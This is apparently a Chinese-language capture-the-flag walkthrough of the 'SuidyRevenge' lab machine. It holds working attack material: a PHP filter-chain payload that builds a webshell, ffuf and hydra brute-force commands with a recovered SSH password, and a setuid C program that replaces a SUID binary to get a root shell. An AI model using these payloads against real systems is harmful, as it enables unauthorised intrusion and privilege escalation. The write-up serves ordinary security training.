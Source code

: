 # SuidyRevenge

`rustscan`扫描，发现开放`22` `80`端口

![](./img/SuidyRevenge-1.png)

访问`80`端口提示

> Im proud to announce that "theuser" is not anymore in our servers. Our admin "mudra" is the best admin of the world. -suidy

## 目录爆破

可以得知有`mudra`用户，目录爆破没找到什么东西

![](./img/SuidyRevenge-2.png)

在源代码发现

> "mudra" is not the best admin, IM IN!!!!
> He only changed my password to a different but I had time
> to put 2 backdoors (.php) from my KALI into /supersecure to keep the access!
>
> -theuser

找一下他留下的后门，找到了一个`simple-backdoor.php`

```bash
ffuf -u http://192.168.1.93/supersecure/FUZZ -w /Users/gongtaiyun/Desktop/secs/tools/dict/SecLists/Web-Shells/backdoor_list.txt
```

![](./img/SuidyRevenge-3.png)

访问即可获得后门参数

![](./img/SuidyRevenge-4.png)

![](./img/SuidyRevenge-5.png)

使用`ls`发现了两个后门文件,`mysuperbackdoor`需要`file`参数，直接包含`simple-backdoor`执行

![](./img/SuidyRevenge-6.png)

![](./img/SuidyRevenge-7.png)

## php伪协议无文件木马

不知道为什么蚁剑的`CMDLINUX`连不上，尝试继续写`shell`，使用有文件包含的`mysuperbackdoor.php`，生成无文件的木马执行,使用[php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)

```bash
$ python3 php_filter_chain_generator.py --chain '<?=`$_POST[1]` ?>'
[+] The following gadget chain will generate the following code : <?=`$_POST[1]` ?> (base64 value: PD89YCRfUE9TVFsxXWAgPz4)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

![](./img/SuidyRevenge-8.png)

![](./img/SuidyRevenge-9.png)

## 提权

```bash
$ find / -perm -4000 2>/dev/null
/home/suidy/suidyyyyy
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/umount
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/mount
/usr/bin/violent
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/passwd
```

进入`suidy`下面，什么都没权限`sudo -l`和`capabilities提权`都没找到

```bash
$ ls -l /home
total 24
drwxrwxr-- 3 murda   murda   4096 Oct  1  2020 murda
drwxrwx--- 2 ruin    ruin    4096 Oct  1  2020 ruin
drwxrwxr-x 3 suidy   suidy   4096 Oct  2  2020 suidy
drwxrwx--- 3 theuser theuser 4096 Oct  2  2020 theuser
drwxrwx--- 3 violent violent 4096 Oct  1  2020 violent
drwxrwx--- 2 yo      yo      4096 Oct  1  2020 yo
```

用户还挺多的，但是按照之前网页的，`murda`爆破的可能性比较大

> 这里有个坑点，网页写的是mudra，但是home目录下是murda，以home目录为主，我就说爆半天出不来是个啥情况

使用`hydra`

```bash
$ hydra -l murda -P ~/Desktop/secs/tools/dict/rockyou.txt ssh://192.168.1.93
```

![](./img/SuidyRevenge-10.png)

```
murda/iloveyou
```

![](./img/SuidyRevenge-11.png)

根据提示还是继续爆`theuser`，半天没出，利用首页给的提示用`different`成功登录，然后就可以执行`suidy`目录下的`suidyyyyy`获得`suidy`权限

```bash
$ cd /home/suidy/
theuser@suidyrevenge:/home/suidy$ ./suidyyyyy
suidy@suidyrevenge:/home/suidy$ whoami
suidy
$ cat note.txt
I know that theuser is not here anymore but suidyyyyy is now more secure!
root runs the script as in the past that always gives SUID to suidyyyyy binary
but this time also check the size of the file.
WE DONT WANT MORE "theuser" HERE!.
WE ARE SECURE NOW.

-suidy
```

远程下载`suidyyyy`文件分析

![](./img/SuidyRevenge-12.png)

![](./img/SuidyRevenge-13.png)

说是会检测大小，那就写个差不多的

## 文件替换提权

```c
#include<stdlib.h>

int main(){
    setuid(0);
    setgid(0);
    system("/bin/bash");
    return 0;
}
```

```bash
$ gcc exp.c -o exp
$ cp exp /home/suidy/suidyyyyy
$ cd /home/suidy
# 多执行几次
$ ./suidyyyyy
root@suidyrevenge:/home/suidy# whoami
root
```

![](./img/SuidyRevenge-14.png)